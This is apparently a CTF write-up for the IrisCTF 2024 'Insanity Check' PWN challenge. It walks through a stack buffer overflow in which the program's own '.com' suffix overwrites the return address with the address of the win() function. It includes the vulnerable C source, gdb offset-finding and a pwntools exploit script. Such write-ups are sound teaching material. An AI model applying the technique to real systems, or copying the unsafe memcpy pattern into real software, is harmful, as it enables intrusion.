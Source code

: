 ```yaml
---
title: Insanity Check
author: capang
date: 2024-01-09 09:30:00 +0800
categories: [Writeups, PWN]
tags: [irisctf 2024]
math: true
mermaid: true
---
```


# Overview

The unsafe `memcpy` usage in the `main()` function causes Buffer Overflow which causes us being able to overwrite the RSP and return to the targeted address `win()` function. However, our input will only causes Buffer Overflow but the predefined `suffix` in the `main()` function will be populated in RSP. Turns out the targeted function `win()` address is the same value as the string `.com`    

## Source file

[Download Source File]({{site.baseurl}}/assets/files/insanity-check.tar.gz)

# File Analysis

## Security checking

```bash
vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c2d6acffbfd9fd36c0a8089feffe3ce53f3eabba, for GNU/Linux 4.4.0, not stripped
```

```python
checksec --file vuln
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x40000000)
```

### Key Points

- possible buffer overflow
- function address not randomized

## Checking the source code

```C 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void rstrip(char* buf, const size_t len) {
    for (int i = len - 1; i >= 0; i--)
        if (buf[i] == '\n') {
            buf[i] = '\0';
            break;
        }
}

const char suffix[] = "! Welcome to IrisCTF2024. If you have any questions you can contact us at test@example.com\0\0\0\0";

int main() {
    char message[128];
    char name[64];
    fgets(name, 64, stdin);
    rstrip(name, 64);

    strcpy(message, "Hi there, ");
    strcpy(message + strlen(message), name);
    memcpy(message + strlen(message), suffix, sizeof(suffix));

    printf("%s\n", message);
}

__attribute__((section(".flag")))
void win() {
    __asm__("pop %rdi");
    system("cat /flag");
}
```

### Target function

Found a target function which is `win()`

```
0x000000006d6f632e  win
```

### Vulnerabilities

The user needs to input max 64 Characters
However unsafe memcpy usage in the `main()` function resulting in buffer overflow

```C
strcpy(message, "Hi there, ");
strcpy(message + strlen(message), name);
memcpy(message + strlen(message), suffix, sizeof(suffix));
```

```
len("Hi there, ") = 10
len(input) = 64 max
len(suffix) = 94
total = 160
```

Buffer overflow can occur

## Exploitation

`0x000000006d6f632e  win` is the address of the win() function
`unhex(0x000000006d6f632e) = moc.`
In the suffix there is '.com' which we can overwrite the RSP with it

### Finding the offsets

To find the offsets we need to use debugger, in my case we use gdb-pwndbg

First we need to input max number of char

```python
*RSP  0x7fffffffdce8 ◂— 'example.com' or 0x2e656c706d617865
```

RSP were populated with 'example.com'. To have only .com in the RSP, we need to substract 'example'. Which is 64 - 7 = 57

```python
Invalid address 0x6d6f632e65 -> e.com
```

Opps, we need another more. thus the offsets is 64-8 = 56. We can craft our payload using PWNTOOLS or manually.

```exploit.py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())
# Set up pwntools for the correct architecture
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# libc = elf.libc
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
io = start()

payload = flat(
    b'A' * 56,
    )


io.sendline(payload)
print(io.recv())
io.interactive()
```

![Flag Picture](/assets/img/writeups/flag-insanity-check.png)

irisctf{c0nv3n13nt_symb0l_pl4cem3nt}


